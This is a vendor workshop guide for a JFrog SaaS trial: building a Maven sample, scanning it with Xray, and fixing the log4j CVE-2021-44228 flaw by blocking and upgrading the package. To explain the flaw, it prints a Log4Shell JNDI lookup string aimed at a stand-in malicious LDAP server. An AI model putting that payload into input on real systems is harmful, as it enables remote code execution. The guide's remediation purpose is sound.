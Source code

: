 # 🏗️ JFrog SaaS Trial Workshop Guide

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This guide will help you get started with JFrog SaaS and practice building a Maven project.

## 📝 Prerequisites
- **Java** 8+
- **Maven** 3.6+

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)
2. Ensure you have access to:
   - ✅ **JFrog Artifactory (SaaS)**
   - ✅ **JFrog Xray** 

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-maven-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-maven`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - Username
   - Encrypted Password (from Profile → Edit Profile → Generate Encrypted Password)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `settings.xml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-maven-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security find out this log4j package is true positive and you can view the evidence for the details.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

> **Happy building and stay secure! 🚀**